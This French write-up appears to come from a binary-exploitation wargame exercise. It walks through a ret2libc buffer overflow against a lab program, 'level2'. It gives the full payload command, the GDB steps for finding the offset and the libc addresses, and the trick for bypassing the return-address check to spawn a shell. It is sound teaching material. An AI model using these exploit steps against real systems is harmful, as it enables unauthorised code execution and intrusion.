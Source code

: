 # Exploit: Return-to-libc (ret2libc)

**Commande**:  
```bash
python -c 'print "a" * 80 + "\x3e\x85\x04\x08"  + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"' > /tmp/exploit3
```
**Explication**:  
Dans cette démonstration, nous exploitons une vulnérabilité en utilisant la technique de **ret2libc**. Cette méthode consiste à détourner le flux d’exécution normal d’un programme pour exécuter arbitrairement des fonctions de la bibliothèque **libc**. En particulier, nous utilisons les adresses des fonctions **system**, **exit**, et la chaîne **/bin/sh** pour ouvrir un shell système, ce qui nous permet d’exécuter des commandes avec les privilèges de l’utilisateur qui exécute le programme vulnérable.  
Cette exploitation est possible car `gets()` ne vérifie pas la taille du buffer, donc on peut provoquer un bufferoverflow.

**Étapes détaillées** :  
- Ouvrir le programme dans **GDB** avec la commande `gdb ./level2`.  
- Définir un point d’arrêt au début de la fonction **main** et démarrer l’exécution du programme avec les commandes `break main`, `run`, et `continue`.  
- Utiliser un générateur de pattern pour créer une séquence unique qui aidera à identifier l’offset exact où se produit le dépassement de tampon.  

  Pattern :  
  `Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A`  
  (100 caractères)

- Exécuter le programme avec le pattern pour générer un **segfault** et examiner le registre **EIP** pour voir quelle partie du pattern a causé le dépassement, ce qui donne `0x37634136` (en hexadécimal). (`x/i $eip ==> 0x37634136 ==> 7cA6`)  
- Avec l’ordre des octets en **little endian** (6Ac7), cela correspond à l’offset **80** dans notre pattern.  
- Trouver l’adresse de la fonction **system**, **exit**, et la chaîne **/bin/sh** dans la **libc** en utilisant les commandes `p system`, `p exit`, et `find __libc_start_main,+99999999,"/bin/sh"`.  
- Étant donné que le programme vérifie si l’adresse de retour a été modifiée, utiliser l’adresse de la fonction `p()` pour contourner cette vérification. Assembler ensuite ces éléments dans la chaîne d’exploitation pour substituer l’adresse de retour par celle de la fonction **system** avec **/bin/sh** comme argument, et nettoyer avec **exit**.

**Ressources**:  
- [Return-to-libc (ret2libc)](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc)  
- [Exercice Protostar Stack](https://infosecwriteups.com/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6)  
- [Ret2libc](http://wikisecu.fr/doku.php?id=appsysteme:ret2libc)
